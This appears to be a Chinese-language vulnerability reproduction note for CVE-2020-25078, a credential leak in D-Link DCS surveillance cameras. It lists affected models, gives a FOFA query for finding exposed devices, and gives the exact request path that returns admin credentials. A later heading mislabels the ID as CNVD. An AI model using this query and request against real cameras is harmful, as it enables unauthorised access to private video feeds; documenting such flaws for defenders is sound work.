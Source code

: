 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

`DCS-2530L DCS-2670L DCS-4603 DCS-4622 DCS-4701E DCS-4703E DCS-4705E DCS-4802E DCS-P703`

## FOFA

`app="D_Link-DCS-2530L"`

## 漏洞复现

访问登录页面如下

![](resource/CVE-2020-25078-D-Link-DCS系列监控-账号密码信息泄露漏洞/media/1.png)

出现漏洞的 Url 为, 其中泄露了账号密码

`http://xxx.xxx.xxx.xxx/config/getuser?index=0`

![](resource/CVE-2020-25078-D-Link-DCS系列监控-账号密码信息泄露漏洞/media/2.png)

使用泄露的账号密码登陆系统

![](resource/CVE-2020-25078-D-Link-DCS系列监控-账号密码信息泄露漏洞/media/3.png)

## Goby & POC

D-Link DCS系列监控 账号密码信息泄露漏洞 CNVD-2020-25078

![](resource/CVE-2020-25078-D-Link-DCS系列监控-账号密码信息泄露漏洞/media/4.png)